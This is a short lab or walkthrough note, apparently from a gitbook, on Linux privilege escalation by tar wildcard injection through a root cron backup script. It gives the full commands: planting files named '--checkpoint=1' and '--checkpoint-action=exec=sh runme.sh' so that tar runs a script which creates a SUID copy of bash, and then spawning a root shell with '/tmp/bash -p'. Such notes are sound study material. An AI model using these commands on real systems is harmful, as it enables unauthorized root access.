 # wildcard crontab

start to disable scheduled task

```bash
cat /etc/crontab 
```

we find file call `/usr/local/bin/compress.sh` have a read permission after display the content of file

![image.png](<../../../.gitbook/assets/image (23).png>)

we found this file take a backup of all files on the system

> tar when find any files start with `—-` make this file as an option that’s make our to execute command by tar

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
# make script run with s privilege
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=sh\ runme.sh
# wait one minute and open bash with root privilege
/tmp/bash -p
```

<figure><img src="../../../.gitbook/assets/image 1 (10).png" alt=""><figcaption></figcaption></figure>
